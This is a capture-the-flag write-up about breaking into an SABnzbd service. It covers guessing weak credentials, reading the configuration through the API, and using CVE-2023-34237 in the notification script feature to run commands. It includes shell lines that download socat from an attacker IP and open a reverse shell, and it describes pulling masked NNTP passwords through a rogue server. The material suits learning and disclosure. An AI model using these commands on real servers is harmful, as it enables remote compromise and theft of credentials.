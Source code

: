 # Website

On port `62177` there was a website that asked for credentials.

![](screenshots/1.png)

Based on the Www-Authenticate header realm parameter `SABnzbd`, the service can be found: <https://sabnzbd.org/>.

The site is protected with a weak credential. Creating a [wordlist.txt](workdir/wordlist.txt) by mutating the realm `SABnzbd` finds the password: `sabnzbd:sabnzbd`. It is quite weak and can be guessed as well.

![](screenshots/2.png)

Logging in reveals the SABnzbd website.

![](screenshots/3.png)

# Logs

Checking the logs the config can be seen, but the passwords are masked out.

![](screenshots/4.png)

Checling the [API](https://sabnzbd.org/wiki/configuration/3.7/api) directly has the same mask. The API key can be found in the settings. 

![](screenshots/5.png)

```
http://10.10.7.12:62177/api?mode=get_config&output=json&apikey=6bcff13331cb434ebc10f48c421aed29&name=%2Fusr%2Flib%2Fpython3.10%2Fsite-packages
```

![](screenshots/6.png)

# 0day

The exact version can be seen and the sourcecode is public.

![](screenshots/7.png)

Searching for `subprocess.Popen`, the `build_and_run_command` at `misc.py:1110` can be found. 

<https://github.com/sabnzbd/sabnzbd/blob/8a2b875/sabnzbd/misc.py#L1110>

![](screenshots/9.png)

This is used by the Noficiations. It can be used to run custom scripts, with (almost) arbitrary parameters.

![](screenshots/8.png)

Notice that at py files, it is checking if they have executable permission, and if they have, they will be ran with python. Otherwise it is just running it, which also requires executable permission implicitly.

The custom script directory can be changed at will.

![](screenshots/10.png)

While there is a possibility to set permissions at downloading files.

![](screenshots/11.png)

The executable permissions are stripped at `filesystem.py:614`.

![](screenshots/12.png)

Apart from this, the directories can be listed by pressing the browse button or tinkering with the API.

![](screenshots/13.png)

Pressing the `Test Notification` button can be used to test the settings.

![](screenshots/14.png)

It is located at `notifier.py:349` in the source code.

![](screenshots/15.png)

Which in turn calling it through the API with fixed `SABnzbd`, `Other`, `Messages` parameters.

![](screenshots/16.png)

With the help of [GTFOBins](https://gtfobins.github.io/#), we can hijack the executions with this 3 fixed parameters and the already available binaries on the system. It is splitting the parameter at space characters, so that character should be avoided.

The program `c98` can be used.

![](screenshots/17.png)

Testing with the `ls`, the stderr can be seen in the output.

![](screenshots/18.png)

With the help of `awk`, the spaces can be avoided. The stdout is not visible on successful run, but based on side effects (eg http request on our side), it can be seen it ran successfully.

![](screenshots/19.png)

This can be combined with downloading a backdoor and starting it.

```bash
c89 SABnzbd Other Messages -wrapper awk,BEGIN{system("curl\x20http://10.8.0.18:8000/socat\x20-o\x20/tmp/socat")}
c89 SABnzbd Other Messages -wrapper awk,BEGIN{system("chmod\x20777\x20/tmp/socat")}
c89 SABnzbd Other Messages -wrapper awk,BEGIN{system("/tmp/socat\x20tcp:10.8.0.18:80\x20exec:/bin/sh\x2cpty\x2cstderr\x2csetsid\x2csigint\x2csane")}
```
Turned out this is a [0day](https://github.com/sabnzbd/sabnzbd/issues/2549) ([CVE-2023-34237](https://github.com/sabnzbd/sabnzbd/security/advisories/GHSA-hhgh-xgh3-985r)) and not the intended solution

# Finding the flag

Using the reverse shell, the flag is in the config [sabnbzbd.ini](workdir/sabnbzbd.ini), in the masked parts.

![](screenshots/20.png)

# Flag
HCSC{sh1v3r_mE_7imbers!_nowadays_y0u_c4nt_7rust_4n_3XP05ed_sab_instance}

# Without 0day
The 0day is not required for the challenge (ofc). 

Normal functionality can be used to read passwords. The host can be changed and the SSL turned off, and using the `Test` button without saving. This initiates a request to the new host with the existing and masked data. <https://github.com/sabnzbd/sabnzbd/issues/2455#issuecomment-1427099417>

![](screenshots/21.png)

Based on the [rfc4643](https://www.rfc-editor.org/rfc/rfc4643), the NNTP server has to answer `200` then `381` codes, then the plaintext password can be acquired.

![](screenshots/22.png)

There are multiple servers, the correct one returns the flag.

![](screenshots/23.png)




